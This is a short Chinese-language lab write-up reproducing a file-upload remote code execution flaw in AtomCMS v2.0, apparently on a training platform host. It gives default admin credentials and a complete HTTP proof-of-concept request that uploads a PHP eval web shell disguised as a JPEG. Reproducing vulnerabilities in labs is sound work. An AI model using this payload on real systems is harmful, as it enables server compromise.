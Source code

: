 ## 1. 漏洞介绍
[阿里云漏洞库](https://avd.aliyun.com/detail?id=AVD-2022-25487)
## 2. 漏洞分析
[An Unauthorized Remote Code Execution vulnerability exists in AtomCMS v2.0. · Issue #256 · thedigicraft/Atom.CMS · GitHub](https://github.com/thedigicraft/Atom.CMS/issues/256)
## 3. 漏洞复现
穿插
> 访问/admin登录
> `alan@alan.com/password`

![1.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309122212110.jpg)

根据漏洞分析直接访问漏洞点，`http://eci-2ze8y6cz5vt0k6pn2o3h.cloudeci1.ichunqiu.com/admin/uploads.php?id=1` 然后 burpsuite 抓包修改为以下示例内容后重放。
POC 示例
```http
POST http://eci-2ze8y6cz5vt0k6pn2o3h.cloudeci1.ichunqiu.com/admin/uploads.php?id=1 HTTP/1.1
Host: eci-2ze8y6cz5vt0k6pn2o3h.cloudeci1.ichunqiu.com
Content-Type: multipart/form-data; boundary=---------------------------30623082103363803402542706041
Connection: close
Content-Length: 355

-----------------------------30623082103363803402542706041
Content-Disposition: form-data; name="file"


-----------------------------30623082103363803402542706041
Content-Disposition: form-data; name="file"; filename="cmd.php"
Content-Type: image/jpeg


<?php @eval($_POST['cmd']);?>
-----------------------------30623082103363803402542706041--
```

![2.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309122215695.jpg)

![3.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309122208878.jpg)

![4.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309122209311.jpg)
